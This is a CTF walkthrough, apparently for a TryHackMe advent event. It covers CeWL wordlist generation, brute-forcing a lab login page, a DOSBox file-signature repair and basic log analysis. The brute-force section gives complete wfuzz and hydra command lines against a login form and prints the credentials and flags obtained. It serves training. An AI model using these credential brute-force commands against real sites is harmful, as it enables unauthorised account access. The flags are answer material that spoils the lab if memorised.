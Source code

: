 #### *Bruteforcing with FUZZING*

- we use `CeWL` tool for making custom wordlist for `bruteforce attacks` , it makes the wordlist based on the site's contents, retrieving data from the site structure, content, organistaion specific terminology and other relevant details.
- we can customize outputs by :
> `-d 2`  -> specifies how deep CeWL should spider, here its 2 links deep
> `-m` and `-x` is min word length and max word length
> `-a` -> if target is behind a login page, this can be used for form based authentication
> `--with-numbers` -> appends numbers to words

- now our task is to gain access to portal at `http://10.10.16.206/login.php`, we make different wordlists, first we make `password wordlist` by :
> `cewl -d 2 -m 5 -w passwords.txt http://10.10.16.206/ --with-numbers`

- then we make `username wordlist` by using cewl on `/team.php` with member info
> `cewl -d 0 -m 5 -w usernames.txt http://10.10.16.206/team.php --lowercase`

- now we shall bruteforce the login page using `wfuzz` using our crafted wordlists
>`wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.16.206/login.php -d "username=FUZZ&password=FUZ2Z"`

- fuzzing with `HYDRA` :
> `hydra -L usernames.txt -P passwords.txt http-post-form://10.10.16.206/login.php:"username=^USER^&password=^PASS^":"Please enter the correct credentials"`

this gives the correct credentials -->> `isaias:Happiness`
FLAG - **THM{m3rrY4nt4rct1crAft$}**

---
## Day 5 :

#### *Reverse Engineering with DOSbox*

- Deploy the windows box in `AttackBox` and double click on `DosBox-X` , now we use commands like `CD`, `DIR`, `TYPE`, `CLS` etc to navigate file system 
- our job is to restore the file `AC2023.BAK` using the backup tool found in `C:\TOOLS\BACKUP` 
> now in this directory we run the command ,
> `BUMASTER.EXE C:\AC2023.BAK` - but this leads to error initially saying error in file signature.
- in `C:\TOOLS\BACKUP` do `EDIT README.TXT` and we see the plan which says if we encounter an error in the restoration process we should edit the first bytes of the file signature to `41 43` which when converted from `hex values` to `ASCII` is `AC`.
- now do `alt+F` and save the file and then run the command `BUMASTER.EXE C:\AC2023.BAK` and we get the flag 

	FLAG - **THM{0LD_5CH00L_C00L_d00D}**
---

## Day 7 :

#### *Log Analysis*

- first start up the machine and navigate to `/home/ubuntu/Desktop/artefacts/access.log` and we will perform some log analysis commands on it
- logs may be difficult to read but we can make it readable by using `cut` command
> `cut -d ' ' -f1 access.log` - space is delimiter and we are getting 1st column which is `timestamp`
> `cut -d ' ' -f1,3,6 access.log` - gives 3 columns 

